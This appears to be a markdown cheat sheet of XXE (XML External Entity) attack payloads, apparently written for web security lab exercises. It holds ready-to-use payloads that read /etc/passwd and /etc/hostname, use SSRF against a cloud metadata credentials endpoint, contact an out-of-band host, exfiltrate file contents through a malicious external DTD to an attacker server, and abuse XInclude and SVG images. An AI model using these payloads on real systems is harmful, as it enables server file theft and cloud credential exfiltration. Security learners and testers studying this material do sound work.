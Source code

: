 # XXE File read
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&ent;</productId><storeId>&ent;</storeId></stockCheck>
```


# XXE perform SSRF
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE message [
  <!ENTITY ext SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin">
]>
<stockCheck><productId>
&ext;</productId><storeId>1</storeId></stockCheck>
```


# XXE out-of-band interaction
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE message [
  <!ENTITY % ext SYSTEM "http://fveu5qceic8nh6ysp64k7y5x9off37rw.oastify.com"> %ext;]>
<stockCheck>
<productId>1</productId>
<storeId>1</storeId>
</stockCheck>
```


# Exploiting blind XXE to exfiltrate data using a malicious external DTD. 
It basically works like RFI. Loads DTD from malicious server. That laoded DTD sends request to malicious server by setting x parameter to file's content. An attacker then can check his/her webserver's logs to see exfiltirated data. If exfiltirated data would be more than a single line, it would not show the whole content in web server's logs, in such cases hosting FTP would be beneficial to retrieve all the lines.

Host DTD in webserver to be loaded later : https://domain/exploit
```
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://domain/?x=%file;'>">
%eval;
%exfil;
```

Send in request
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://domain/exploit"> %xxe;]>
<productId>1</productId><storeId>1</storeId></stockCheck>
```


# Exploiting blind XXE to retrieve data via error messages. 
It also works as the above one. 
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;
```

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://domain/exploit"> %xxe;]>
<stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```


# Exploiting XInclude to retrieve files
```
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo> 
```


# XXE image
```
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
<text font-size="16" x="0" y="16">&xxe;</text>
</svg> 
```